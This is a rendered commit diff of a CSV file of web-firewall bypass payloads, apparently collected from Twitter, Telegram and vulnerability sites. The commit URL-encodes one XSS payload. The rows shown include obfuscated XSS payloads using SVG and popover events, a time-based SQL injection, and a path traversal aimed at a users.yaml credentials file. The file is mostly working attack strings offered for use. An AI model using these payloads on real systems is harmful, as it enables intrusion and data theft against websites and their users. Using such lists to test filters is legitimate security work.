

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -482,3 +482,3 @@ https://t.me/ZerodayExploitware/2233,<SvG><set%0Aonbegin%0A=%0aa=confirm;a%28%60
 https://vulners.com/cve/CVE-2023-31719?utm_source=rss&utm_medium=rss&utm_campaign=rss,test' OR 2891=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- ZJMj,sqli
-https://twitter.com/jacky_ichwan/status/1721054490017886381,javascript:var a="ale";var b="rt";var c="()";decodeURI("&lt;button popovertarget=x&gt;Click me&lt;/button&gt;&lt;hvita onbeforetoggle="+a+b+c+" popover id=x&gt;Hvita&lt;/hvita&gt;"),xss
+https://twitter.com/jacky_ichwan/status/1721054490017886381,javascript%3Avar%20a%3D%22ale%22%3Bvar%20b%3D%22rt%22%3Bvar%20c%3D%22%28%29%22%3BdecodeURI%28%22%26lt%3Bbutton%20popovertarget%3Dx%26gt%3BClick%20me%26lt%3B%2Fbutton%26gt%3B%26lt%3Bhvita%20onbeforetoggle%3D%22%2Ba%2Bb%2Bc%2B%22%20popover%20id%3Dx%26gt%3BHvita%26lt%3B%2Fhvita%26gt%3B%22%29,xss
 https://www.linkedin.com/pulse/yamcs-vulnerability-assessment-visionspace-technologies/,../../../../../../../../home/kali/work/assessments/yamcs/examples/simulation/target/yamcs/etc/users.yaml,lfi
```
